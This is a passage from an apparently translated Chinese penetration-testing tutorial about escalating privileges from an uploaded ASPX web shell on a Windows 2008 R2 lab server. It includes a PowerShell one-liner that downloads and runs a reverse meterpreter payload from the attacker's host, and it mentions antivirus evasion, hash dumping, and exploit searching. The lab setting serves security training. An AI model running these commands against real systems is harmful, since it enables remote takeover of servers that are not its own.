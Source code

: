 # 准备工作

在本教程中，我们假设我们已经在Windows 2008 R2服务器上获得了一个有限的shell（[https://github.com/tennc/web-shell/blob/master/fuzzdb-web-shell/asp/cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)）。我们将使用从微软下载中心下载的Windows虚拟机，[https://www.microsoft.com/en-us/download/details.aspx?id=2227](https://www.microsoft.com/en-us/download/details.aspx?id=2227)。唯一的变化是添加了Web服务器管理员角色，并配置其支持ASP.Net应用程序。要启用ASP.Net，在安装Web服务器管理员角色后，打开命令终端并运行`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_regiis –i`。

# 如何操作...

因此，我们成功地将我们的Web shell上传到了一个Windows Web服务器。它位于`http://192.168.56.14/cmd.aspx`。首先要做的是确定Web服务器正在运行的权限级别：

1.  浏览到Web shell（`http://192.168.56.14/cmd.aspx`）并运行`whoami`命令，如下所示：

![](assets/82dfbcd2-de2e-4dcd-b747-8531bfba01e6.png)

如你所见，我们的用户是`defaultapppool`，来自`iis apppool`组，这是一个在默认配置下权限非常有限的组。

1.  接下来，我们需要改进发出命令的方法。让我们使用`msfvenom`创建一个反向meterpreter shell。我们将使用服务器自身的PowerShell在内存中执行我们的有效载荷，而不让它接触目标的硬盘，这样就很难被防病毒软件和其他保护软件检测到。为此，我们的有效载荷应该是PowerShell脚本格式（`-f psh`），并将其直接保存到Kali的Web根目录（`-o /var/www/html/cutedolphin.ps1`），如下所示：

![](assets/84ee4751-c37c-4784-b88d-c95982bef5f4.png)

1.  一旦创建了有效载荷，确保Kali的Web服务器正在运行，以便目标可以下载脚本：`service apache2 start`。

1.  现在为meterpreter连接创建一个`handler`。在终端中打开`msfconsole`并执行以下命令，根据有效载荷调整参数：

[PRE7]

1.  处理程序配置应该像以下截图一样。检查一切是否正确，然后执行处理程序（`run`）；它将打开配置的端口并等待连接：

![](assets/cf6970c9-3909-40d4-90c7-4dd3e182ad37.png)

1.  一旦处理程序运行，我们需要在服务器上执行有效载荷。为此，请进入Web-shell，将程序设置为`powershell.exe`，参数设置为`-noexit -c iex ((New-Object Net.WebClient).DownloadString('http://192.168.56.10/cutedolphin.ps1'))`，然后点击运行：

![](assets/e124d692-dcf9-4aa7-9bc0-302a0d254eef.png)

1.  如果有效载荷成功执行并接收到连接，我们将看到我们的处理程序启动一个meterpreter会话。请注意会话分配的编号，此例中为`1`：

![](assets/1dbc4cc1-f960-4a50-b51c-c300a0b1382d.png)

1.  当在Windows主机上运行meterpreter时，如果配置允许，我们可以使用`getsystem`命令轻松提升为System。正如以下截图所示，这在此情况下不可行；我们还尝试了转储本地密码哈希，但没有成功。因此，我们获取系统信息，寻找提升权限的方法：

![](assets/faf8b7ae-0da5-4679-9cd8-6068e89353d5.png)

1.  使用`background`命令返回Metasploit控制台，并将meterpreter会话保持在后台运行。

1.  我们使用`searchsploit`命令，它显示与`2008 R2`匹配的漏洞非常少。只有一个是本地的，意味着它可以在现有会话中执行，如果我们尝试，它将无法工作，因为我们的目标已经打过补丁：

![](assets/11826a66-d030-4e31-9ff9-26d84b2592a1.png)
